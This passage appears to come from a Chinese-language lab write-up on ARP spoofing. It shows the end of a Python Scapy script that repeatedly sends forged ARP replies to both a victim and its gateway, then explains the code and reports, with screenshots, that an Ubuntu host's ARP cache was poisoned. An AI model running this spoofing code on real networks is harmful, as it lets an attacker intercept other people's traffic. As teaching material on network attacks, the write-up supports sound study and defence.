 ```python
    print 'local_mac = {} target_mac = {} gateway_mac = {}'\
        .format(local_mac, target_mac, gateway_mac)
    if not all((local_mac, target_mac, target_mac)):
        print 'Fail to Get MAC Address, Please Check the Arguments'
        sys.exit(0)
    packet_t = Ether(src=local_mac, dst=target_mac) \
        / ARP(hwsrc=local_mac, psrc=gateway, hwdst=target_mac, pdst=target, op=2)
    packet_g = Ether(src=local_mac, dst=gateway_mac) \
        / ARP(hwsrc=local_mac, psrc=target, hwdst=gateway_mac, pdst=gateway, op=2)
    try:
        while True:
            sendp(packet_t, inter=2, iface=interface)
            sendp(packet_g, inter=2, iface=interface)
            time.sleep(1)
    except KeyboardInterrupt:
        sys.exit(0)

if __name__ == '__main__':
    parse_arguments()
```
代码并不复杂，除了print语句外对Python2和Python3并不敏感。`parse_arguments()`函数进行参数的解析，`arp_poison()`函数构造arp欺骗包同时欺骗受害者和网关，并每隔一秒发送数据包。

运行这段代码

![arp.py](https://github.com/DBullet/UCore/blob/master/lab5/image002.png)

很快就可以看到Ubuntu的arp缓存已经被毒害

![arp](https://github.com/DBullet/UCore/blob/master/lab5/boot/image002.png)
